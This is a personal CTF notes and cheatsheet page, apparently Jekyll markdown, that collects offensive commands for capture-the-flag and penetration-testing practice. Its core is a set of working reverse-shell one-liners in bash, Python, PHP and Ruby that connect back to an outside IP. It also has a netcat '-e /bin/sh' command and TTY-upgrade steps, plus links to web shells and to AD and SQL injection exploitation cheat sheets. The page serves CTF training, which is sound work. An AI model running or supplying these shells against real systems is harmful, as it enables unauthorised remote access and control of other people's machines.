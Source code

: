 ```yaml
---
layout: single
author_profile: true
permalink: /notes/ctf
toc: true
title: CTF Notes and Cheatsheets
toc_label: "Contents"
toc_icon: "fab fa-fw fa-th-list"
---
```


## Intro

This is a collection of commands and cheatsheets that I use on a regular basis, the original locations as to where these commands came from will be linked along side the commands. Again, these are not my creations, this is just a note of tools and commands that I have frequently used and that I think are useful. 

## Bash Prompt
[Here is a copy of my bash prompt](/bashrc)

## Shells
### Reverse Shells

{% highlight bash %}
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
{% endhighlight %}

{% highlight python %}
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

{% highlight php %}
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
{% endhighlight %}

{% highlight ruby %}
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
{% endhighlight %}

[PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

[Perl Reverse Shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

Credits for all of these shells goes to [pentestmonkey](http://pentestmonkey.net/)

### Web Shells

[p0wny@shell:~#](https://github.com/flozz/p0wny-shell) - My absolute favorite webshell

{% highlight php %}

{% endhighlight %}

### Interactive TTY Spawning

{% highlight bash linenos %}
nc -e /bin/sh 10.10.10.10 9001
{% endhighlight %}

{% highlight python linenos %}
python -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}

`Ctrl + Z`

{% highlight bash linenos %}
stty raw -echo && fg && reset
{% endhighlight %}

{% highlight bash linenos %}
export SHELL=bash
export TERM=tmux
stty rows 48 columns 127
{% endhighlight %}

## AD 

This [GitHub Page](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet) by [S1ckB0y1337](https://github.com/S1ckB0y1337) is fantastic.

## SQLi

[MySQL Injection Cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) - [pentestmonkey](http://pentestmonkey.net/)

[PortSwigger SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) - [PortSwigger](https://portswigger.net/)

[w3schools SQLi Explanation](https://www.w3schools.com/sql/sql_injection.asp)